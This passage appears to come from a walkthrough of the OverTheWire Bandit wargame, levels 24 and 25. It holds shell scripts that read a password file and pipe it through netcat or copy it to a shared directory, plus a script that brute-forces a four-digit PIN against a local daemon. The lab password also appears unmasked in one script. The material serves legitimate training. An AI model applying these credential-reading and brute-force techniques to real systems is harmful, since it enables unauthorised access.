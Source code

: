```bash

# Way 1
tmux
nc -lvp 12345
# New tab and write script
vim cworld.sh
# #!/bin/bash
#
# cat /etc/bandit_pass/bandit24 | nc localhost 12345
# Don't forget to give the permission (run it as fast as you can)
chmod +x cworld.sh

# Way 2
tmux
vim cworld.sh
# #!/bin/bash
#
# cat /etc/bandit_pass/bandit24 > /var/spool/bandit24/foo/cworld1
# Don't forget to give the permission (run it as fast as you can)
chmod +x cworld.sh
# New tab and get answer
cat /var/spool/bandit24/foo/cworld1
```

Password: `gb8KRRCsshuZXI0t****************`

## Level 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

You do not need to create new connections each time

```bash

t=$(mktemp -d) && cd $t

vim get-code.sh
#!/bin/bash

for i in {0000..9999} ; do
    echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done
echo 'File generated.'

cat possibilities.txt | nc localhost 30002 > result.txt
echo 'Test done.'
sort result.txt | grep -v "Wrong!"

chmod +x ./get-code.sh
./get-code.sh
# Sit back and relax
```
